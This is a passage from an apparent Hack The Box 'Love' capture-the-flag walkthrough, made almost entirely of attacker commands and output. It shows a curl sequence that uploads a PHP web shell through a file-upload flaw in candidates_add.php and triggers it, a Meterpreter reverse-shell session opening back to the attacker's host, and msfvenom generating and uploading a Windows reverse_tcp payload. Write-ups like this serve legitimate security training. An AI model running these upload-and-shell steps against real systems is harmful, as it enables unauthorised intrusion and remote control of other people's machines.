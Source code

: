 #### Upload and execute reverse shell using vulnerability discovered in `candidates_add.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ POSITION_ID=$(curl -s -b cookies.txt http://love.htb/admin/positions.php | grep -o "data-id='[0-9]\+'" | grep -o "[0-9]\+" | tail -1) && \
curl -b cookies.txt http://love.htb/admin/candidates_add.php \
    -F photo=@shell.php \
    -F firstname=John \
    -F lastname=Doe \
    -F position=$POSITION_ID \
    -F platform=Platform \
    -F add= && \
curl http://love.htb/images/shell.php
```

#### Confirm foothold gained
```
[*] Sending stage (40004 bytes) to 10.129.222.158
[*] Meterpreter session 1 opened (10.10.16.5:4444 -> 10.129.222.158:65372) at 2025-08-25 17:51:51 +0200

meterpreter > getuid
Server username: Phoebe
```

### Upgrade `php/meterpreter/reverse_tcp` to `windows/x64/meterpreter/reverse_tcp`

#### Generate `windows/x64/meterpreter/reverse_tcp` reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=5555 \
    -f exe \
    -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

#### Upload `windows/x64/meterpreter/reverse_tcp` reverse shell
```
meterpreter > upload shell.exe
[*] Uploading  : /home/magicrc/attack/HTB Love/shell.exe -> shell.exe
[*] Uploaded -1.00 B of 7.00 KiB (-0.01%): /home/magicrc/attack/HTB Love/shell.exe -> shell.exe
[*] Completed  : /home/magicrc/attack/HTB Love/shell.exe -> shell.exe
```
